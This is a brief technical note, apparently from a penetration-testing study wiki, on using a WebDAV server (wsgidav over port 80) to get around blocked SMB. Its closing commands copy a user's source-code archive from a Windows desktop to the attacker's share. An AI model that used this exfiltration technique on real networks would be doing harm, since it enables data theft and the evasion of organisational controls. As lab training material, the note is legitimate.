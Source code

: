 Webdav
########

Date: 2024-11-02 19:06

Status:


Description
************

Sometimes connecting to SMB shares outside of the network is restricted
by corporate policy. However, for employee productivity ports 443 and 80
are left open. You can leverage this by using WEBDAV. It allows
directories to be accessible through HTTP.

2 modules in Python can be installed to allow this:

-  wsgidav
-  cheroot

and can be installed with:

.. code-block:: console

   sudo pip3 install wsgidav cheroot

And used as:

.. code-block:: console

   sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 

Connecting to the share from powershell:

.. code-block:: console

   dir \\192.168.49.128\DavWWWRoot

**Note:** ``DavWWWRoot`` is a special keyword recognized by the Windows
Shell. No such folder exists on your WebDAV server. The DavWWWRoot
keyword tells the Mini-Redirector driver, which handles WebDAV requests
that you are connecting to the root of the WebDAV server.

You can avoid using this keyword if you specify a folder that exists on
your server when connecting to the server. For example:
\\192.168.49.128:raw-latex:`\sharefolder`

And finally upload files by:

.. code-block:: console

   C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
   C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\

References
************
